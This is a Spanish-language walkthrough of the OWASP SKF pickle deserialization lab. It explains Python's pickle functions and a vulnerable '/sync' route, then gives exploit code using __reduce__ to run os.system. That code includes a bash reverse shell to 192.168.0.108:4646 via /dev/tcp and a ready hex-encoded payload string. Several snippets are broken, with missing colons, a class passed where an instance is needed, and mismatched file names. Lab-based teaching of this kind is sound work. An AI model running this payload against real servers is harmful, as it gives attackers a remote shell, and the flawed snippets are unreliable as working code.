









# Python – Ataque de Deserialización Pickle (DES-Pickle)

### Más info:

- Links
    
    scaler - (”[https://www.scaler.com/topics/pickle-python/](https://www.scaler.com/topics/pickle-python/)”)
    

## Instalación

```bash
docker pull blabla1337/owasp-skf-lab:des-pickle
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```



# ¿Qué es pickle?



*«Pickling»* es el proceso mediante el cual una jerarquía de objetos de Python se convierte en una secuencia de bytes, y el *«unpickling»* es la operación inversa, mediante la cual una secuencia de bytes de un archivo binario ([binary file](https://docs.python.org/es/3/glossary.html#term-binary-file)) o un objeto tipo binario ([bytes-like object](https://docs.python.org/es/3/glossary.html#term-bytes-like-object)) es convertido nuevamente en una jerarquía de objetos.

Para usar Pickle en Python, se debe importar su librería:

```bash
import pickle
```

## “pickle.dump()” y “pickle.load()”

Pickle provee dos funciones: “pickle.dump()” o “pickle.dumps()” y “pickle.load()” o “pickle.loads()” y a continuación se mostrará un ejemplo de cada una.

### pickle.dump()

**`pickle.dump()`**: Se usa para serializar un **objeto** y almacenar el output en un archivo.

```bash
# Se usa para especificar un archivo
pickle.dump(object, file, protocol=None, *, fix_imports=True,
 buffer_callback=None)
```

Ejemplo:

- Código
    
    ```bash
    import pickle
    
    dic = {
    	'name': 'bryan',
    	'age': 11,
    	'course': 'hack4u'
    }
    
    # Pickling the created dictionary
    with open('data.pickle', 'wb') as a:
    	pickle.dump(dic, a)
    ```
    





### pickle.dumps()

**`pickle.dumps()`**: Se usa para serializar un **objeto** y mostrar su resultado usando otro objeto.

```bash
# Se añade la "s" para especificar que se usará un string 
# en lugar de un archivo
pickle.dumps(obj, protocol = None, *, fix_imports = True, 
buffer_callback=None)
```

Ejemplo:



### pickle.load()

**`pickle.load()`**: Se usa para leer un **archivo** serializado o “pickled” y verlo en su forma deserializada.

```bash
pickle.load(file, *, fix_imports=True, encoding='ASCII', 
errors='strict', buffers=None)
```

Ejemplo

- Código
    
    ```bash
    import pickle
    
    # Unpickling the created file
    with open('data.pickled', 'rb') as b:
    	unpickled = pickle.load(b)
    
    print(unpickled)
    ```
    




### pickle.loads()

**`pickle.loads()`**: Se usa para leer **objetos** serializados o “pickled” y mostrarlos en su forma deserializada.


# Análisis de código

Ahora se analizará el archivo “DES-Pickle”:


Por el método POST, se están tramitando datos en la ruta “/sync”.



En la primer parte se está abriendo el archivo “pickle.hacker” con permisos de escritura. Se está tomando el valor que ingresó el usuario en el parámetro “data_obj” y lo almacena en la variable “att”, luego toma ese “att” el cual debe ser una cadena hexadecimal ya que se la función “bytes.fromhex” está buscando una cadena hexadecimal para convertirla en bytes y almacenar el output en la variable “attack”.

En la segunda parte, se está leyendo el mismo archivo “pickle.hacker” con permisos de lectura. Se está deserializando el contenido de “handler”, es decir, “pickle.hacker” y el resultado se almacena en la variable “a” y será mostrado al renderizar la página web.

## Explotación

Pickle cuenta con una función “__reduce__” la cual puede ser controlada, de forma que en el proceso de deserialización, se puede indicar qué acción se debe tomar a la hora de deserializarlo.

El siguiente código lo que hace es devolver unos datos serializados para enviarlos al servidor y este al deserializarlos, se le indica qué acción debe tomar, en este caso se quiere ejecutar un comando a nivel de sistema.

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(pickle.dumps(Exploit()))
```



Al ejecutar este código, el resultado será la representación de la clase “Exploit()” serializada en bytes pero en este caso, como se vio anteriormente, la página web solo acepta cadenas hexadecimales y para esto es que se usa la librería “binascii”, para representar una cadena en hexadecimal:

```bash
import pickle
import os
import binascii

 class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__'
	print(binascii.hexlify(pickle.dumps(Exploit())))
```



Al enviar esta cadena en hexadecimal al servidor, este un 0 pero no muestra el resultado del comando por lo que es posible que lo que está mostrando es el código de estado del comando ejecutado. En este caso, en lugar del comando “id”, se creará una reverse shell en la máquina local.


Código para reverse shell

```bash
import pickle
import os
import binascii

class Exploit(object)
	def __reduce__(self):
		return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.0.108/4646 0>&1"',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit)))
```


Cadena copiada:

```bash
80049550000000000000008c05706f736978948c0673797374656d9493948c3562617368202d63202262617368202d69203e26202f6465762f7463702f3139322e3136382e302e3130382f3436343620303e26312294859452942e
```


